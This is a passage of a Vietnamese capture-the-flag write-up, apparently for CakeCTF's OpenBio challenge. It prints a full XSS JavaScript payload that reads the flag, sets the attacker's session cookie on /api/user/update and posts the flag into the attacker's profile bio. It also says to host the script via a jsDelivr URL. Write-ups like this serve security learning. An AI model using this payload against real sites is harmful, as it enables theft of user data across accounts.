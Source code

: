 Như vậy ta chỉ cần set cookie session của ta cho `/api/user/update`, lấy `csrf_token` của ta và gửi request đổi profile là sẽ có được flag

Script ví dụ sử dụng XHR

```jsx
// Set our account cookie for /api/user/update
document.cookie = "session=eyJjc3JmX3Rva2VuIjoiMGIxMzYwMjc5YWFlYTAyOTU2OTNlNmE1MDE1Y2QyN2Q0Y2EwOWJiOCIsInVzZXIiOiIxMjM0NTY3OCJ9.Yxhk-Q.e1-HkpckpFGB07p-qbZvZ5tBW5k; path=/api/user/update"

// Set csrf_token to our csrf_token
let csrf = "IjBiMTM2MDI3OWFhZWEwMjk1NjkzZTZhNTAxNWNkMjdkNGNhMDliYjgi.Yxhqhg.fpyT9r_MmHtm_4ZL-iZzgShCDoc";

// Post flag to our profile
xhr.open("POST", "/api/user/update", false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded')
data = `bio=${flag}&csrf_token=${csrf}`;
console.log(data);
xhr.send(data);
```

Script hoàn chỉnh

```jsx
xhr = new XMLHttpRequest();

// Get flag
let flag;
xhr.open("GET", "/", false);
xhr.onload = function () {
    flag = /CakeCTF{.*}/.exec(xhr.response)[0];
};
xhr.send(null);

// Set our account cookie for /api/user/update
document.cookie = "session=eyJjc3JmX3Rva2VuIjoiMGIxMzYwMjc5YWFlYTAyOTU2OTNlNmE1MDE1Y2QyN2Q0Y2EwOWJiOCIsInVzZXIiOiIxMjM0NTY3OCJ9.Yxhk-Q.e1-HkpckpFGB07p-qbZvZ5tBW5k; path=/api/user/update"

// Set csrf_token to our csrf_token
let csrf = "IjBiMTM2MDI3OWFhZWEwMjk1NjkzZTZhNTAxNWNkMjdkNGNhMDliYjgi.Yxhqhg.fpyT9r_MmHtm_4ZL-iZzgShCDoc";

// Post flag to our profile
xhr.open("POST", "/api/user/update", false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded')
data = `bio=${flag}&csrf_token=${csrf}`;
console.log(data);
xhr.send(data);
```

Lưu script vào một file js, push lên Github và sử dụng `jsdelivr` để load (ví dụ như [https://cdn.jsdelivr.net/gh/vcth4nh/misc@main/openbio_fetch.js](https://cdn.jsdelivr.net/gh/vcth4nh/misc@main/openbio_fetch.js))

